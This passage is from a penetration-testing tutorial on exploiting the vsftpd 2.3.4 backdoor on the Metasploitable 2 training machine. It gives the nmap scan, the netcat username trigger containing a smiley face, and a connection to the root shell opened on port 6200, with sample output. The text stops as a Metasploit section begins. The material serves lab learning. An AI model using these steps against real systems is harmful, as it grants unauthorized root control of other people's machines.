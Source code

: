 5. **Root Access:** Anyone who connects to port 6200 on the target machine is immediately granted a command-line shell with the same privileges as the VSFTPD service. In the specific case of Metasploitable 2, the service is misconfigured to run as the **root** user, meaning the shell provides the attacker with the highest level of administrative access to the system.

In summary, a simple smiley face sent as part of a username fools the compromised server into opening a secret, privileged door on port 6200, waiting for the attacker to connect and take control.
## Method 1: Exploiting Manually with Netcat
The manual method provides a deeper understanding of what the exploit is actually doing. We will use two common network utilities: `nmap` to identify the service and `netcat` (or `nc`) to interact with it directly.

### 1. Service Discovery
First, we need to confirm the target is running the vulnerable version of VSFTPD. We can do this with an `nmap` version scan targeting the standard FTP port (21). Replace `<target_ip>` with the IP address of your Metasploitable 2 machine.
```bash
nmap -sV -p 21 <target_ip>
```
The output should clearly show vsftpd 2.3.4, confirming our target is vulnerable
```output
Starting Nmap 7.92 ( https://nmap.org ) at 2025-06-11 10:30 EDT
Nmap scan report for <target_ip>
Host is up (0.00021s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.43 seconds
```

### 2. Triggering the Backdoor
Now, we connect to the FTP port using `netcat`. This allows us to send raw commands to the server.
```bash
nc <target_ip> 21
```
Once connected, the server will send a welcome banner. Now, we send the trigger. Type the following username command (including the smiley face) and press Enter:
```bash
USER user:)
```
The server will ask for a password (it might just be an empty line). It doesn't matter what you enter, so you can just type `PASS pass` and press enter. Now the backdoor has been activated. You might get disconnected (this is expected), if not you can manually terminate the session by typing `exit` or with the keyboard shortcut `ctrl+c`.

### 3. Connecting to the Root Shell
The backdoor has now opened a command shell listener on port 6200. Open a new terminal window and use `netcat` again to connect to this port
```bash
nc <target_ip> 6200
```
Upon connecting, you will not see a login prompt. Instead, you will have an interactive command shell. You can confirm you have root access by running the `id` command. The output should look like this:
```output
uid=0(root) gid=0(root)
```
You now have full administrative control over the target machine!
## Method 2: Exploiting with Metasploit
The Metasploit Framework automates the entire process described above. It knows how to trigger the backdoor and connect to the resulting shell, all within a single module.

